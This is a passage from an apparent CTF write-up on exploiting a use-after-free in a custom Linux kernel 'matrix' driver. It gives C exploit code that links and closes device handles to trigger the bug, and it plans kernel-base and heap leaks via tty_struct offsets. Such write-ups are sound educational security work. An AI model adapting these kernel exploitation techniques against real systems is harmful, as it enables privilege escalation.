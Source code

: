 ```c
  // release the matrix
  kfree(matrix);

  return 0;
}
```

So the `matrix_release` function unlinks 2 two matrixes before calling `kfree`, so we can't trigger the UAF bug now.

But what if I unlink 2 matrixes before deleting one of them?

So, here is my strategy:

+ Link matrix1 <-> matrix2
+ Link matrix2 <-> matrix3, now `matrix2->link = matrix3` and `matrix3->link = matrix2` but still have `matrix1->link = matrix2`
+ So, now if I delete `matrix2`, I can still overwite its old data via `matrix1` -> the UAF bug.

```c
    int fd1 = openDEV(); 
    int fd2 = openDEV();
    //Linking
    if(do_link(fd1,fd2) < 0)
        errExit("Do_link");
    logInfo("Link fd1 <-> fd2: done.");

    int fd3 = openDEV();
    if(do_link(fd2,fd3) < 0)
        errExit("do_link");
    
    logInfo("Link fd2 <-> fd3: done. But fd1 -> fd2 ?");
    close(fd2);
    logInfo("Closed fd2");
```

But we still need leak heap address and kernel base address.

The function `matrix_set_info` allows us to set any size for the matrix via `matrix->data = kmalloc(matrix->rows * matrix->cols, GFP_KERNEL);`

So I will take advantage of [`struct tty_struct`](https://elixir.bootlin.com/linux/v6.0.15/source/include/linux/tty.h#L195) to leak:
![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/6307e6bb-42de-4ab9-a956-f43ca9ab0f5a)
![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/1269e091-29d2-4240-b0bb-73abe924b131)


We can leak kernel base address via offset 0x18 and heap address via offset 0x38.

```c
int set_info(int devfd, struct matrix_info* info){
    return ioctl(devfd,IOCTL_MATRIX_SET_INFO,info);
}
int do_link(int devfd1, int devfd2){
    return ioctl(devfd1,IOCTL_MATRIX_DO_LINK,devfd2);
}
int setname(int devfd,char* name){
    return ioctl(devfd,IOCTL_MATRIX_SET_NAME,name);
}

void readMATRIX64(int devfd, uint64_t* need, off64_t offset){
    struct matrix_pos leaker = {0};
    leaker.col = 0;
    for(uint32_t i = 0 ; i < 8;  ++i ){
        leaker.row = offset+i;
        ioctl(devfd,IOCTL_MATRIX_GET_POS,&leaker);
        ((char *)need)[i] = leaker.byte;
```